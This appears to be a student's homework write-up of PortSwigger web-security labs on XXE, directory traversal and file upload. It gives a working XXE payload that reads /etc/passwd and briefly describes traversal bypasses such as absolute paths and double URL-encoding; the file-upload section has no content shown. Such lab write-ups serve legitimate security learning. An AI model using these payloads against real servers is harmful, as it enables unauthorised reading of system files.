

# HOMEWORK 7. Attack to server. Part 1

## Task 1. XXE attack

The solution of the [lab](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files) is presented below:


The malicious payload allowed to get content of `/etc/passwd`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

## Task 2. Directory traversal

### Part 1

The solution of the [lab](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass) is presented below:


The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

### Part 2

The solution of the [lab](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode) is presented below:



The path prefix `../../../` is URL-encoded twice

## Task 3. File upload

The solution of the [lab](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload) is presented below:


